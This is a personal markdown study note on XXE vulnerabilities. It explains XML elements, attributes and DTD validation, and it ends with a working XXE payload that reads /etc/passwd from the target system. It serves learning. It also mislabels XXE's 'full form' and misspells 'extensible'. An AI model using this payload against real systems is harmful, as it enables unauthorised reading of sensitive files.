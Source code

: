 # XXE

Rishabh Yadav | 06-02-2022

*Hi, I will be storing all my findings and learnings about this vulnerablity in this markdown file*

Full form - eXtinsible markup language

There are 2 types of this vulnerablity:-
1. Inband - Gives immediate response
2. Outband - Does not give any response. Attacker has to reflect the output of his XXE payload to a file or a web server

Here is a example of a xml code: 
```
<?xml version="1.0" encoding="UTF-8"?>
<mail>
   <to>falcon</to>
   <from>feast</from>
   <subject>About XXE</subject>
   <text>Teach about XXE</text>
</mail>
```
**mail** is the root element in the above code  

<br>

```
<text category = "message">You need to learn about XXE</text>
  
"category" is the attribute name and "message" is the attribute value
```

<br>

```

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note SYSTEM "note.dtd">
<note>
    <to>falcon</to>
    <from>feast</from>
    <heading>hacking</heading>
    <body>XXE attack</body>
</note>


___________________________


So now let's understand how that DTD validates the XML. Here's what all those terms used in note.dtd mean

    !DOCTYPE note -  Defines a root element of the document named note
    !ELEMENT note - Defines that the note element must contain the elements: "to, from, heading, body"
    !ELEMENT to - Defines the to element to be of type "#PCDATA"
    !ELEMENT from - Defines the from element to be of type "#PCDATA"
    !ELEMENT heading  - Defines the heading element to be of type "#PCDATA"
    !ELEMENT body - Defines the body element to be of type "#PCDATA"

    NOTE: #PCDATA means parseable character data.


```

<br>

Using the payload below we are able to read any file on the system: 
```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```
Note: you must change the path of the file according to yourself


